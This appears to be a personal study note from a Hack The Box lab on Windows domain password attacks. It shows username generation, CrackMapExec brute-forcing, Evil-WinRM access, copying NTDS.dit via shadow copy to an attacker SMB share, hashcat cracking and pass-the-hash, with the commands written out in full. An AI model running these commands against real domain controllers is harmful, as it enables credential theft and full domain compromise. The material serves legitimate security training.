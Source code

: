 # 🪅 Windows Local Password Attacks

Here we will learn how we can extract credentials through the use of a `dictionary attack against AD accounts` and `dumping hashes` from the `NTDS.dit` file.

our target must be reachable over the network. This means it is highly likely that we will need to have a foothold established on the internal network to which the target is connected.

Here is the authentication process once a Windows system has been joined to the domain.

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`. That domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on.

To bruteforce our way into the network, we need to know patterns orgs can utilize when creating employee usernames ->

| Username Convention                 | Practical Example for Jane Jill Doe |
| ----------------------------------- | ----------------------------------- |
| `firstinitiallastname`              | jdoe                                |
| `firstinitialmiddleinitiallastname` | jjdoe                               |
| `firstnamelastname`                 | janedoe                             |
| `firstname.lastname`                | jane.doe                            |
| `lastname.firstname`                | doe.jane                            |
| `nickname`                          | doedoehacksstuff                    |

an same goes for the email -> `jdoe`@`inlanefreight.com`

Let's say we have some employees&#x20;

* Ben Williamson
* Bob Burgerstien
* Jim Stevenson

using the tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), we can convert a list of real names into common username formats.

```shell-session
ElFelixi0@htb[/htb]$ ./username-anarchy -i /home/ltnbob/names.txt 

ben
benwilliamson
ben.williamson
benwilli
benwill
<SNIP>
```

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch our attack against the target domain controller using a tool such as CrackMapExec.

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

**Connecting to a DC with Evil-WinRM**

Once we have our set of credentials we can try and connect to the DC

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Once connected, we can check to see what privileges `bwilliamson` has.

```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights.

**Checking User Account Privileges including Domain**

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
<SNIP>
Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
<SNIP>
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive because NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

Then to copy the file we need to create an SMB share on our attack host

We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

**Using cme to Capture NTDS.dit**

This is much more faster&#x20;

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking Hashes

Now we can copy the output of the attack and put every NT hash in a txt file to launch hashcat

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

`What if we are unsuccessful in cracking a hash?`

&#x20;We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`

**Pass-the-Hash with Evil-WinRM Example**

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

_**On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)**_

```
./username-anarchy/username-anarchy -i listofpeaople.txt > lastusername.txt
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
crackmapexec smb 10.129.202.85 -u lastusername.txt -p fasttrack.txt
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```
cjohnson:Welcome1212
```

